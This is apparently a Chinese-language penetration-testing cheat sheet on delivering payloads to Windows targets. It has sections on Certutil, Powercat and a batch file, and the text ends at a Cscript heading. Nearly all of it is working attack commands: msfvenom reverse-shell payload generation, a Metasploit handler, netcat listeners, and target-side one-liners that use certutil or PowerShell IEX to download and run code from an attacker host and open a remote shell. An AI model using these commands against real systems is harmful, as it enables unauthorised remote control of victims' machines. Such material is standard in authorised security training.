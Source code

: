 **Certutil.exe**

Certutil.exe 是作为证书服务的一部分安装的命令行程序。我们可以使用此工具在目标计算机上执行恶意 exe 文件，以获取 meterpreter 程序会话。

攻击端
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe
python -m SimpleHTTPServer 80
```
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit
```
目标端
```bash
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```

**Powercat.exe**

Powercat 是 PowerShell 的本机后门侦听器和 reverse shel，也称为 netcat 的修改版本，因为它集成了对生成的编码有效载荷的支持，msfvenom 可以做到这一点，并且还具有客户端到客户端的中继(Powercat 客户端的术语，允许连接两个单独的侦听器)。

攻击端
```bash
git clone https://github.com/besimorhino/powercat.git
cd powercat
python -m SimpleHTTPServer 80

nc -lvp 1234
```
目标端
```bash
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
```

**Batch File**

攻击端
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat

python -m SimpleHTTPServer 80

nc -lvp 4444
```

目标端
```bash
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))
```

**Cscript**
